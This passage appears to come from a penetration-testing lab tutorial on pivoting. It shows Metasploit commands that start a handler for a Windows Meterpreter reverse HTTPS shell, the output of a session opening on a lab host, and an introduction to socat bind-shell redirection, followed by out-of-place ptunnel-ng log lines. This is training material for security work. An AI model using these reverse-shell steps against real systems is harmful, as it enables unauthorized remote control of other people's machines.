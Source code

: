 Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

#### Starting MSF Console

```shell
sudo msfconsole

<SNIP>

```

#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80

```

We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

#### Establishing the Meterpreter Session

```shell
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor

```


# Socat Redirection with a Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%